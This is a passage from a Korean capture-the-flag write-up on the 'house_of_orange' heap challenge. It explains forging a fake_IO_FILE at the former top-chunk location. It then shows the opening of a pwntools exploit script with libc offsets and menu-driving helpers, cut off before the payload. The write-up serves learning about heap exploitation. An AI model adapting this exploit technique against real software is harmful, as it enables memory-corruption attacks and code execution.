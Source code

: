 `TOP_chunk`를 덮고 `malloc`을 했을 때 모습인데 `_chain`에 `TOP_chunk`의 주소가 들어간걸 볼 수 있어요. 그래서 원래 `TOP_chunk`가 있는 곳에 `fake_IO_FILE`을 만들어주고 나머진 조건에 맞게 쓱쓱 해주면 풀려요.

- - -
# 0x04. 익스플로잇

이정도면 나름 자세하게 쓴듯

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "52.68.192.99"
PORT = 4444
#PORT = 56746

s = remote(HOST, PORT)
pause()

elf = ELF("./house_of_orange")
libc = ELF("./libc.so.6")

libc_off = 0x3c5188
system_off = libc.symbols["system"]
IO_list_all_off = libc.symbols["_IO_list_all"]

heap_off = 0x130
fake_IO_jump_t_off = 0x640

def func_build(size, name):
    s.recvuntil("Your choice : ")
    s.sendline("1")

    s.recvuntil("Length of name :")
    s.sendline(str(size))

    s.recvuntil("Name :")
    s.send(name)

    s.recvuntil("Price of Orange:")
    s.sendline(str(0x18))

    s.recvuntil("Color of Orange:")
    s.sendline(str(0xddaa))

def func_see():
    s.recvuntil("Your choice : ")
    s.sendline("2")

def func_upgrade(size, name):
    s.recvuntil("Your choice : ")
    s.sendline("3")

    s.recvuntil("Length of name :")
    s.sendline(str(size))

    s.recvuntil("Name:")
    s.send(name)

    s.recvuntil("Price of Orange: ")
    s.sendline(str(0x18))

```